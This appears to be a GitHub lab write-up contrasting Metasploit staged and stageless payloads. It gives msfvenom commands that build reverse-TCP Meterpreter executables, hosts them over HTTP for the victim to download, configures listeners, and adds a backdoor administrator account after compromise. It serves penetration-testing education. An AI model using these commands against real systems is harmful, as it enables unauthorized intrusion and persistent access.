







# Metasploit Deep Dive: Staged vs. Stageless Payloads

If you’ve spent any time around Metasploit, you’ve probably seen payload names like `meterpreter/reverse_tcp` and `meterpreter_reverse_tcp` and thought:

> *These look almost the same… so why do both exist?*

The short answer: **how the payload is delivered and how much code runs on the victim initially**.

- **Staged payloads** are lightweight. They connect back to the attacker and then pull down the rest of the payload in memory.
- **Stageless payloads** are heavier. Everything is bundled into one executable and runs in one shot.

As an attacker (or defender), this difference matters for **reliability, stealth, and detection**. In this lab, I ran both attacks side-by-side to clearly see how they behave in a real environment.

This README is written as a **walkthrough**, not just a command dump — the goal is to understand *why* each step exists.

---

## Lab Environment

**Attacker (Host):**
- Kali Linux
- Metasploit Framework

**Target (Victim):**
- Windows VM
- Firewall & Defender disabled (lab-only scenario)

**Network:**
- Host-only / Internal network
- Kali IP: `192.168.56.101`
- Victim IP: `192.168.56.102`

> ⚠️ **Disclaimer**: This lab is for educational purposes only and was conducted in an isolated environment that I own.

---

## Initial Metasploit Setup (Common for Both Labs)

```bash
sudo apt install metasploit-framework
sudo service postgresql start
sudo msfdb init
msfconsole --version
```

Identify the Kali IP address:

```bash
ifconfig
```

> **Why this matters:** If your `LHOST` is wrong, nothing else in this lab will work.

---

## Part 1: Staged Payload Attack

### What We’re Testing Here

A **staged payload** sends a small initial stub to the victim. Once executed, that stub connects back to the attacker and downloads the full Meterpreter payload in memory.

This is useful when:
- You want a smaller initial payload
- Network conditions are stable

---

### Step 1: Generate the Staged Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=192.168.56.101 LPORT=443 \
-f exe -o /home/kali/msf/staged.exe
```



> **Why this payload:** `windows/meterpreter/reverse_tcp` explicitly tells Metasploit this will be a **staged** Meterpreter payload.

---

### Step 2: Host the Payload

```bash
sudo systemctl start apache2
cp /home/kali/msf/staged.exe /var/www/html/
```

The payload is now accessible from the victim via:

```
http://192.168.56.101/staged.exe
```



---

### Step 3: Configure the Metasploit Handler

```bash
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 443
exploit -j
```


> **Pro-Tip:** The handler payload **must match exactly** what was used in `msfvenom`.

---

### Step 4: Execute on the Victim

On the Windows target:
- Disable Firewall and Defender
- Download and execute `staged.exe`


---

### Step 5: Meterpreter Session Opened

Once executed, a Meterpreter session opens:



You now have interactive access to the system.

---

### Post-Exploitation (Staged)

```bash
sysinfo
shell
```

Create a new admin user:

```powershell
net user attacker P@ssw0rd /add
net localgroup administrators attacker /add
```

Run local exploit suggestions:

```bash
run post/multi/recon/local_exploit_suggester
```



---

## Part 2: Stageless Payload Attack

### What We’re Testing Here

A **stageless payload** contains the entire Meterpreter code in one executable. There is no second stage download.

This is useful when:
- Staging is blocked by network controls
- You want fewer moving parts

---

### Step 1: Generate the Stageless Payload

```bash
msfvenom -p windows/meterpreter_reverse_tcp \
LHOST=192.168.56.101 LPORT=443 \
-f exe -o /home/kali/msf/stageless.exe
```


> **Key difference:** Notice the underscore: `meterpreter_reverse_tcp` = **stageless**.

---

### Step 2: Host the Payload

```bash
cp /home/kali/msf/stageless.exe /var/www/html/
```

Victim downloads:

```
http://192.168.56.101/stageless.exe
```

---

### Step 3: Configure the Handler

```bash
use exploit/multi/handler
set payload windows/meterpreter_reverse_tcp
set LHOST 192.168.56.101
set LPORT 443
exploit -j
```



---

### Step 4: Execute and Catch Session

Once the victim runs the executable:



The session opens immediately without staging.

---

### Post-Exploitation (Stageless)

The same post-exploitation steps apply:

```bash
sysinfo
shell
```

Create admin user and validate access:

```powershell
net user attacker2 P@ssw0rd /add
net localgroup administrators attacker2 /add
```

Run recon modules:

```bash
run post/multi/recon/local_exploit_suggester
```


---

## Key Takeaways

- **Staged payloads** are smaller and flexible but rely on successful second-stage delivery
- **Stageless payloads** are larger but more reliable in restricted environments
- Payload and handler **must always match**
- `LHOST` and network configuration cause most failures

### Skills Demonstrated
- Payload crafting with `msfvenom`
- Listener and handler configuration
- Understanding Meterpreter internals
- Windows post-exploitation and privilege escalation reconnaissance

---

## Final Notes

Running both attacks back-to-back made the differences very clear. This lab helped me understand **not just how to use Metasploit**, but how payload design decisions affect real-world exploitation.

If you’re learning penetration testing, I highly recommend testing staged vs. stageless payloads yourself — the behavior difference is subtle, but important.

